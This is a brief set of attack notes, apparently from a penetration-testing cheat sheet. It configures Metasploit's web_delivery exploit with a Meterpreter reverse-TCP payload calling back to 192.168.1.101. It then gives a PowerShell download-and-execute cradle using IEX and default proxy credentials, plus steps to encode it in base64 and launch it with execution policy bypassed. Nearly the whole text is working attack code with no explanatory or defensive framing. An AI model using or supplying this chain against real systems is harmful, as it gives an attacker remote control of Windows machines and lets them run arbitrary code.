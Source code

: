 
    msf > use exploit/multi/script/web_delivery
    
    msf exploit(web_delivery) > set target 2
    target => 2

    msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp

    msf exploit(web_delivery) > set lhost 192.168.1.101
    lhost => 192.168.1.101
    
    msf exploit(web_delivery) > set lport 6666
    lport => 6666

    msf exploit(web_delivery) > set SRVPORT 8081
    SRVPORT => 8081

    msf exploit(web_delivery) > set uripath /
    uripath => /
    
    msf exploit(web_delivery) > exploit
    
`powershell Exec  in 1.txt`
  
    $n=new-object net.webclient;

    $n.proxy=[Net.WebRequest]::GetSystemWebProxy();

    $n.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;
    
    IEX $n.downloadstring('http://192.168.1.101:8081/');
    
    cat 1.txt | iconv --to-code UTF-16LE |base64
    
    `Exec (Must add ==)`
    
    powershell -ep bypass -enc  "PaYloAD=="  
